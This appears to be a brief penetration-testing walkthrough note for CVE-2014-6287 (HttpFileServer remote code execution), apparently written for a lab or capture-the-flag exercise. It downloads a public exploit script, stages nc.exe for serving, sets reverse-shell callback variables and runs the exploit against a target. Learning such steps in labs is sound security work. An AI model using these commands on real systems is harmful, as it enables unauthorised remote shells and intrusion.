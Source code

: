 ```
wget https://gist.githubusercontent.com/AfroThundr3007730/834858b381634de8417f301620a2ccf9/raw/783473905951169e49afaf5958e89b23f5a8743f/cve-2014-6287.py
```

```
mkdir bin && cp /usr/share/windows-resources/binaries/nc.exe ./bin
```

[[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

Update lhost and lport variables.

[[rlwrap]]

```
python cve-2014-6287.py $TARGET 9505
```







